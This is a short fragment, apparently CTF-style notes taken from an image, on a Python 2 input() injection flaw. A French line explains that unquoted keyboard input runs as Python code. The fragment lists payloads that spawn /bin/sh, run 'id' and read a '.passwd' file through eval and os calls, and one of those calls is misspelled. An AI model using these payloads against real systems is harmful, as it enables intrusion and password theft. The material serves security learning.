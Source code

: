 __import__(’os’).execl(’/bin/sh’,’sh’)
sys.stdout.write(open(".passwd").readline())
import os; os.sytem("id")   
eval(compile('import os; os.system("cat .passwd")', 'foobar.py', 'exec'))

Faille input qui permet de lire l'entrée du clavier. s'il n'y a pas de '' ou "" alors ce sera interprété comme code python